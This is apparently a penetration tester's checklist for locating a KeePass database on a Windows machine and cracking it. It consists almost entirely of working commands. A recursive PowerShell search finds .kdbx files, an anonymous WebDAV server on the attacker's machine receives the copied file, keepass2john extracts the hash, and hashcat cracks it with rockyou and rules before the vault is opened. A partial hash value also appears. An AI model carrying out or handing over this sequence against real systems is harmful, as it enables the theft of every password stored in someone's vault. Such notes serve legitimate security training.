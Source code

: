 # Keypass Cracking Passwords

Keypass found on windows box (under apps and features)

```pwsh
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-ChildItem cmdlet to locate files in specified locations. 
```

> -Path C:\ to search the whole drive.

> -Include to specify the file types we want to include,
> 
> -File and -Recurse arguments to get a list of files and search in subdirectories.
> 
> -ErrorAction to SilentlyContinue to silence errors and continue execution.

- [ ] Copy file to local machine
    \- webdav/ftp/ect...
    \- \[ \] Quick Webdav setup (if wsgidav is setup pip3 install wsgidav)
    \- on local `mkdir srvdir`
    \- `~/.local/bin/wsgidav --host=0.0.0.0 --port=80 --root=./srvdir --auth=anonymous --root ./srvdir`
    \- \[ \] map it or open it in remote machine and copy file to it
    \- \[ \] move file
    \- \[ \] kill webdav / optional cleanup
    
- [ ] List and validate
    `ls -al Database.kdbx`
    
- [ ] Convert to hash file
    `keepass2john Database.kdbx > keepass.hash`
    
- [ ] Delete <u>Database:</u>$keepass$....
    \- $keepass$*2*60*0*d74e29a727e9338717d27a7
    
- [ ] Find hashcat value
    `hashcat --help | grep -i "KeePass"`
    
- [ ] Use value with hashcat on file
    `hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force`
    
- [ ] Open Keypass program and use master key to extract values, use master password and None for file...
    ![708427fb1d5ccd4aa147d0831c4c8453.png](../../_resources/708427fb1d5ccd4aa147d0831c4c8453.png)
    ![4914d1b868cd2e1175d75b46f6ba9e3e.png](../../_resources/4914d1b868cd2e1175d75b46f6ba9e3e.png)